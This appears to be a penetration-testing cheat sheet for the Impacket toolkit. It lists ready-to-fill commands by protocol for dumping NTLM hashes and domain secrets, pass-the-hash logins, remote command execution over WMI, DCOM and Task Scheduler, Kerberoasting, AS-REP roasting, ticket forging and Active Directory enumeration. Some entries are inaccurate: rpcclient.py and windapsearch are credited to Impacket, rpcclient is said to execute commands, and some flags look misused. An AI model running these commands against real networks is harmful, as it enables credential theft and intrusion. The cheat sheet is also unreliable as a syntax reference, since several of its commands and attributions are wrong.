 ```yaml
---
legal-banner: true
---
```


### **IMPACKET TOOLKIT**

Impacket is a collection of Python classes for working with network protocols. It is highly regarded in the cybersecurity community for its ability to handle low-level network tasks and its extensive support for various protocols, making it an essential toolkit for penetration testers and security researchers.

### **PROTOCOLS SUPPORTED:**

### **SMB/SMB2**

SMBCLIENT.PY: Interactive SMB client to work with shares.

   1.  Access SMB shares interactively  
        `smbclient.py [DOMAIN]/[USERNAME]:[PASSWORD]@[IP-ADDRESS]`

   2.  Lists all available shares on the target.  
        `smbclient.py [DOMAIN]/[USERNAME]:[PASSWORD]@[IP-ADDRESS] -L`

SECRETSDUMP.PY: Dumps secrets from the remote machine without executing any agent.
    
   1.  Dumps NTLM hashes of all domain users from a domain controller.  
        `secretsdump.py [DOMAIN]/[USERNAME]:[PASSWORD]@[IP-ADDRESS]`

   2.  Dump NTLM Hashes Using Pass-the-Hash:  
        `secretsdump.py -hashes [LMHASH]:[NTHASH] [DOMAIN]/[USERNAME]@[IP-ADDRESS]`
		
NETVIEW.PY: Enumerates shares and sessions on the network.
    
1.  Enumerate network shares and sessions  
     `netview.py [DOMAIN]/[USERNAME]:[PASSWORD]@[IP-ADDRESS]`
2.  Enumerate Shares Using Pass-the-Hash:  
     `netview.py -hashes [LMHASH]:[NTHASH] [DOMAIN]/[USERNAME]@[IP-ADDRESS]`

### **MSRPC**

RPCCLIENT.PY: A tool to execute client-side MSRPC calls.

1.  Execute MSRPC client calls  
      `rpcclient.py [DOMAIN]/[USERNAME]:[PASSWORD]@[IP-ADDRESS]`

2.  Enumerate Domain Users:  
      `rpcclient.py [DOMAIN]/[USERNAME]:[PASSWORD]@[IP-ADDRESS] -c "enumdomusers"`

3.  Enumerate Domain Groups:  
      `rpcclient.py [DOMAIN]/[USERNAME]:[PASSWORD]@[IP-ADDRESS] -c "enumdomgroups"`

 4.  Execute Command on Target Machine:  
     `rpcclient.py [DOMAIN]/[USERNAME]:[PASSWORD]@[IP-ADDRESS] -c "cmd"`

RPCDUMP.PY: Dumps information about endpoints and interfaces.
 
 1.  Dump RPC endpoints and interfaces info  
     `rpcdump.py [DOMAIN]/[USERNAME]:[PASSWORD]@[IP-ADDRESS]`

2.  Dump RPC Endpoints Using Pass-the-Hash:  
     `rpcdump.py -hashes [LMHASH]:[NTHASH] [DOMAIN]/[USERNAME]@[IP-ADDRESS]`

3.  Dump RPC Endpoints with No Credentials:  
    `rpcdump.py -no-pass [DOMAIN]/[USERNAME]@[IP-ADDRESS]`

### **DCE/RPC**

ATEXEC.PY: Executes commands using the Task Scheduler service.

1.  Execute command using Task Scheduler  
    `atexec.py [DOMAIN]/[USERNAME]:[PASSWORD]@[IP-ADDRESS] [COMMAND]`

2.  Execute Command Using Pass-the-Hash:  
   `atexec.py -hashes [LMHASH]:[NTHASH] [DOMAIN]/[USERNAME]@[IP-ADDRESS] [COMMAND]`

3.  Execute Command with No Credentials:  
    `atexec.py -no-pass [DOMAIN]/[USERNAME]@[IP-ADDRESS] [COMMAND]`

WMIEXEC.PY: Executes commands via WMI.

1.  Execute command via WMI  
        `wmiexec.py [DOMAIN]/[USERNAME]:[PASSWORD]@[IP-ADDRESS] [COMMAND]`

2.  Execute Command Using Pass-the-Hash:  
        `wmiexec.py -hashes [LMHASH]:[NTHASH] [DOMAIN]/[USERNAME]@[IP-ADDRESS] [command]`

3.  Execute Command with No Credentials:  
        `wmiexec.py -no-pass [DOMAIN]/[USERNAME]@[IP-ADDRESS] [COMMAND]`

DCOMEXEC.PY: Executes commands using DCOM.

1.  Execute command using DCOM  
      `dcomexec.py [DOMAIN]/[USERNAME]:[PASSWORD]@[IP-ADDRESS] [COMMAND]`

2.  Execute Command Using Pass-the-Hash:  
      `dcomexec.py -hashes [LMHASH]:[NTHASH] [DOMAIN]/[USERNAME]@[IP-ADDRESS] [COMMAND]`

3.  Execute Command with No Credentials:  
    `dcomexec.py -no-pass [DOMAIN]/[USERNAME]@[IP-ADDRESS] [COMMAND]`

### **LDAP**

GETADUSERS.PY: Enumerates all users in the domain.
    
1.  Enumerate all domain users  
    `GetADUsers.py [DOMAIN]/[USERNAME]:[PASSWORD]@[IP-ADDRESS]`

2.  Enumerate all users including disabled accounts  
   `GetADUsers.py [DOMAIN]/[USERNAME]:[PASSWORD]@[IP-ADDRESS] -all`

3.  Use Pass-the-Hash for Enumeration:  
   `GetADUsers.py -hashes [LMHASH]:[NTHASH] [DOMAIN]/[USERNAME]@[IP-ADDRESS]`

GETUSERSPNS.PY: Enumerates Service Principal Names (SPNs) that are associated with user accounts.
    
1.  Enumerate user SPNs  
   `GetUserSPNs.py [DOMAIN]/[USERNAME]:[PASSWORD] -dc-ip [IP-ADDRESS]`

2.  Request TGS for identified SPNs  
   `GetUserSPNs.py [DOMAIN]/[USERNAME]:[PASSWORD] -request -dc-ip [IP-ADDRESS]`

3. Use Pass-the-Hash to enumerate SPNs.  
    `GetUserSPNs.py -hashes [LMHASH]:[NTHASH] [DOMAIN]/[USERNAME] -dc-ip [IP-ADDRESS]`

WINDAPSEARCH.PY: performs LDAP queries against Windows Active Directory to enumerate objects like users and groups.
    
1.  Enumerates Group Policy Objects  
   `python3 windapsearch.py --dc-ip [IP-ADDRESS] -u [USERNAME]@[DOMAIN] -p [PASSWORD] --gpos`

2.  Enumerates objects with administrative privileges  
   `python3 windapsearch.py --dc-ip [IP-ADDRESS] -u [USERNAME]@[DOMAIN] -p [PASSWORD] --admin-objects`

3.  Enumerates users with Service Principal Names (SPNs)  
   `python3 windapsearch.py --dc-ip [IP-ADDRESS] -u [USERNAME]@[DOMAIN] -p [PASSWORD] --user-spns`

4.  Enumerates users with unconstrained delegation  
    `python3 windapsearch.py --dc-ip [IP-ADDRESS] -u [USERNAME]@[DOMAIN] -p [PASSWORD] --unconstrained-users`

5.  Enumerates computers with unconstrained delegation  
   `python3 windapsearch.py --dc-ip [IP-ADDRESS] -u [USERNAME]@[DOMAIN] -p [PASSWORD] --unconstrained-computers`

### **KERBEROS**

TICKETER.PY: Generates Kerberos tickets that can be used for various attacks.

1.  Generate a TGT ticket for a user  
   `ticketer.py -nthash [NTHASH] -domain-sid [SID] [USERNAME]`

2.  Generate a service ticket for a user and SPN  
   `ticketer.py -nthash [NTHASH] -domain-sid [SID] -request [USERNAME] [SPN]`

3.  Generate TGT Ticket with AES Encryption:  
   `ticketer.py -aesKey [AESKEY] -domain-sid [SID] [USERNAME]`

GETNPUSERS.PY: Checks for accounts with Kerberos pre-authentication disabled and extracts their TGT data.

1.  Enumerate accounts with pre-auth disabled  
   `GetNPUsers.py [DOMAIN]/[USERNAME]:[PASSWORD] -dc-ip [IP-ADDRESS]`

2.  Request TGT for identified accounts  
   `GetNPUsers.py [DOMAIN]/[USERNAME]:[PASSWORD] -request -dc-ip [IP-ADDRESS]`

3.  Request TGT Using Kerberos Authentication:  
   `GetNPUsers.py -k [DOMAIN]/[USERNAME] -request -dc-ip [IP-ADDRESS]`

### **NTLM**

LOOKUPSID.PY: Enumerates domain SID information.

1.  Enumerate domain SID info  
     `lookupsid.py [DOMAIN]/[USERNAME]:[PASSWORD]@[IP-ADDRESS]`

2.  Enumerate Domain SID Info Using Pass-the-Hash:  
     `lookupsid.py -hashes [LMHASH]:[NTHASH] [DOMAIN]/[USERNAME]@[IP-ADDRESS]`

3.  Enumerate Domain SID Info with No Credentials:  
      `lookupsid.py -no-pass [DOMAIN]/[USERNAME]@[IP-ADDRESS]`

SECRETSDUMP.PY: Dumps secrets from the remote machine without executing any agent.

1.  Dump secrets from a remote machine  
     `secretsdump.py [DOMAIN]/[USERNAME]:[PASSWORD]@[IP-ADDRESS]`

2.  Dump secrets from the domain controller  
    `secretsdump.py -just-dc-user [DOMAIN]/[USERNAME]:[PASSWORD]@[IP-ADDRESS]`

3.  Dump Secrets Using Pass-the-Hash:  
   `secretsdump.py -hashes [LMHASH]:[NTHASH] [DOMAIN]/[USERNAME]@[IP-ADDRESS]`